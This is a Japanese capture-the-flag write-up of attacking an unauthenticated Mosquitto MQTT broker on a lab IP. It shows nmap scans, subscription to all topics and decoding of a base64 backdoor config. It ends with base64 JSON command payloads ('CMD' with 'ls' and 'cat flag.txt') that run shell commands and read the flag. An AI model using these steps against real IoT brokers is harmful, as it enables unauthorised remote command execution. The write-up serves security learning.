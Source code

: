 ### 🦋 Enum 
```
nmap -Pn -sS 10.10.25.229 -p- --min-rate=1000 -vv

Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE REASON
1883/tcp open  mqtt    syn-ack ttl 60
```
```
nmap -Pn -sVC 10.10.25.229 -p 1883 -vv -T4

PORT     STATE SERVICE                  REASON  VERSION
1883/tcp open  mosquitto version 2.0.14 syn-ack
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/publish/bytes/sent: 349
|     $SYS/broker/load/connections/5min: 0.51
|     $SYS/broker/version: mosquitto version 2.0.14
|     $SYS/broker/load/messages/received/1min: 86.11
|     $SYS/broker/load/bytes/received/5min: 1912.58
|     $SYS/broker/load/publish/sent/5min: 6.68
|     livingroom/speaker: {"id":211551651046996595,"gain":41}
|     $SYS/broker/load/sockets/15min: 0.25
|     $SYS/broker/messages/stored: 36
|     $SYS/broker/load/messages/sent/15min: 18.52
|     $SYS/broker/messages/received: 269
|     storage/thermostat: {"id":3296708289509929431,"temperature":24.104994}
|     $SYS/broker/load/publish/sent/15min: 2.25
|     $SYS/broker/clients/inactive: 0
|     $SYS/broker/clients/connected: 2
|     $SYS/broker/uptime: 176 seconds
|     patio/lights: {"id":15868680515623395794,"color":"BLUE","status":"ON"}
|     $SYS/broker/subscriptions/count: 3
|     $SYS/broker/load/messages/received/5min: 40.58
|     $SYS/broker/clients/active: 2
|     $SYS/broker/load/messages/sent/5min: 47.26
|     $SYS/broker/clients/total: 2
|     $SYS/broker/load/sockets/5min: 0.69
|     $SYS/broker/load/sockets/1min: 2.49
|     $SYS/broker/load/bytes/received/15min: 767.85
|     $SYS/broker/publish/messages/sent: 62
|     $SYS/broker/bytes/sent: 3686
|     $SYS/broker/load/connections/15min: 0.19
|     $SYS/broker/publish/bytes/received: 8994
|     $SYS/broker/load/connections/1min: 1.89
|     $SYS/broker/messages/sent: 330
|     $SYS/broker/load/messages/received/15min: 16.27
|     $SYS/broker/load/bytes/sent/15min: 155.79
|     $SYS/broker/clients/disconnected: 0
|     $SYS/broker/bytes/received: 12702
|     $SYS/broker/clients/maximum: 2
|     $SYS/broker/retained messages/count: 38
|     $SYS/broker/store/messages/count: 36
|     $SYS/broker/load/publish/sent/1min: 31.07
|     $SYS/broker/load/messages/sent/1min: 117.18
|     $SYS/broker/store/messages/bytes: 271
|     $SYS/broker/load/bytes/sent/1min: 1594.43
|     $SYS/broker/load/bytes/sent/5min: 431.08
|_    $SYS/broker/load/bytes/received/1min: 4023.83

Nmap done: 1 IP address (1 host up) scanned in 16.03 seconds
```

```
curl 10.10.25.229:1883 -vv
*   Trying 10.10.25.229:1883...
* Connected to 10.10.25.229 (10.10.25.229) port 1883 (#0)
> GET / HTTP/1.1
> Host: 10.10.25.229:1883
> User-Agent: curl/7.88.1
> Accept: */*
> 
* Recv failure: 接続が相手からリセットされました
* Closing connection 0
curl: (56) Recv failure: 接続が相手からリセットされました
```

mosquitto version 2.0.14 とヒントから対象はMQTTサーバっぽい。

https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto

こちらの記事から、以下のクライアントで通信してみることにした。

https://github.com/bapowell/python-mqtt-client-shell

### 🦋 Flag

```
└─$ python MQTT_Client.py

Welcome to the MQTT client shell.
Type help or ? to list commands.
Pressing <Enter> on an empty line will repeat the last command.

Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: on (indent=30), Recording: off, Pacing: 0
> logging off

Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0
> connection

Connection args: host=localhost, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0

> host 10.10.25.229

Connection args: host=10.10.25.229, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0
> connect

***CONNECTED***
Subscriptions: 
Connection args: host=10.10.25.229, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0

> subscribe #
...msg_id=1, result=0 (No error.)

***CONNECTED***
Subscriptions: (topic=#,qos=0)
Connection args: host=10.10.25.229, port=1883, keepalive=60, bind_address=, will=None,
                 username=, password=, 
                 TLS/SSL args: ca_certs_filepath=None, ...  (TLS not used)
Client args: client_id=paho-8695-kali, clean_session=True, protocol=4 (MQTTv3.1.1), transport=tcp
Logging: off, Recording: off, Pacing: 0
>                               on_message(): message received: Topic: patio/lights, QoS: 0, Payload Length: 58
                                                              Payload (str): b'{"id":16203475553139602730,"color":"WHITE","status":"OFF"}'
                                                              Payload (hex): b'7b226964223a31363230333437353535333133393630323733302c22636f6c6f72223a225748495445222c22737461747573223a224f4646227d'
                              on_message(): message received: Topic: frontdeck/camera, QoS: 0, Payload Length: 97
                                                              Payload (str): b'{"id":12711243125979531289,"yaxis":-30.734741,"xaxis":8.347092,"zoom":3.7394342,"movement":false}'

```
ホスト設定後、チュートリアルとおりのコマンドでそれっぽいデータ受信を確認。

しばらくしてると、Topic: yR3gPp0r8Y/AGlaMxmHJe/qV66JF5qmH/config　で始まるB64されたおかしいMSGを受信するのでPayloadをデコードする。

![image](https://user-images.githubusercontent.com/6504854/236677887-22e8a30d-698b-49a2-a686-cf07b1633e53.png)

![image](https://user-images.githubusercontent.com/6504854/236678248-ef0391ea-3f28-4215-82f6-ed5868d47632.png)

この電文を元にopicとPayloadの組み合わせを考えいれてみた。
```
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}
```
```
publish pub_topic "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub"
publish pub_topic "HELP"
publish pub_topic "CMD"
publish pub_topic "SYS"
publish U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub "HELP"
publish U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub "CMD"
publish U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub "SYS"

publish sub_topic "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"
publish sub_topic "HELP"
publish sub_topic "CMD"
publish sub_topic "SYS"
publish XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub "HELP"
publish XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub "CMD"
publish XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub "SYS"
```
![image](https://user-images.githubusercontent.com/6504854/236678975-ad9603e0-3a2f-42e1-8c33-672bd1134fa6.png)
![image](https://user-images.githubusercontent.com/6504854/236679221-65f00435-d344-4fef-a0da-3a11ea94bdd1.png)

どうも下３こ反応しているように見受けられる。デコードする。argってなに？（なんらかの引数でしょうね、はい）。
また以下PayloadをB64していれてみる。

```
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "HELP"}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "HELP", "arg": ""}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD"}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "SYS"}
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "SYS", "arg": ""}
```

{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"} の結果
![image](https://user-images.githubusercontent.com/6504854/236681441-19e41a13-e671-403f-ae9c-a8b8dc82c08b.png)

{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"} の結果
![image](https://user-images.githubusercontent.com/6504854/236682086-4a630e7a-234e-4fd5-93b9-cf4ab34626d3.png)


うーん。B64して遊んでたら休みが終わった。。。MQTTの仕様はなんもわかってない。

### 🦋 Omake

https://securitycafe.ro/2022/04/08/iot-pentesting-101-how-to-hack-mqtt-the-standard-for-iot-messaging/

こちらの図がわかりやすい。
今回の場合、MQTT Broker（サーバ）がなぜかバックドアIDとコマンドを配信してくれてた？


